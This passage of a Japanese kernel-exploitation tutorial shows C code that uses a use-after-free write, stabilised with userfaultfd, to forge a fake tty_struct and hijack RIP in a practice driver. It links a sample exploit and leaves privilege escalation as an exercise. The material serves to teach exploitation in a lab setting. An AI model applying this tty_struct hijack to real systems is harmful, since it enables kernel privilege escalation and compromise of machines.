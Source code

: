 ```c
        copy.src = (unsigned long)buf;
```
今回はUAF Writeなので、書き込むデータを制御する必要があります。書き込むデータは`copy.src`に指定します。そのため、事前に偽`tty_struct`を用意しておきましょう。
```c
  /* [3-1] UAF Write: tty_structの書き換え */
  memcpy(buf, page+0x1000, 0x400);
  unsigned long *tty = (unsigned long*)buf;
  tty[0] = 0x0000000100005401; // magic
  tty[2] = *(unsigned long*)(page + 0x10); // dev
  tty[3] = kheap; // ops
  tty[12] = 0xdeadbeef; // ops->ioctl
  victim = add(buf, 0x400);
  set(victim, page+0x2000, 0x400);
```
RIPが制御できていれば成功です。あとは各自で権限昇格までのexploitコードを完成させてください。

<center>
  <img src="img/fleck_privesc.png" alt="Fleckviehでの権限昇格" style="width:480px;">
</center>

サンプルのexploitコードは[ここ](exploit/fleckvieh_uffd.c)からダウンロードできます。

---

<div class="column" title="例題">
  今回はRaceを安定化させる目的のみでuserfaultfdを使いました。
  一方で、ページをまたいでデータを配置すると、構造体の特定のメンバの読み書きで処理を止めることができます。
  この手法を利用してexploitできるような状況について考察してみましょう。
</div>

[^1]: 初回アクセス時にページフォルトを発生させたいので`MAP_POPULATE`を付けていません。
[^2]: 直接`printf`すると、`printf`関数内でフォルトが発生してハンドラ中の`puts`や`printf`とバッファリングのデッドロックが発生してプログラムが停止するので注意しましょう。カーネルexploitの文脈では、カーネル空間からフォルトを発生されるので気にする必要はありません。
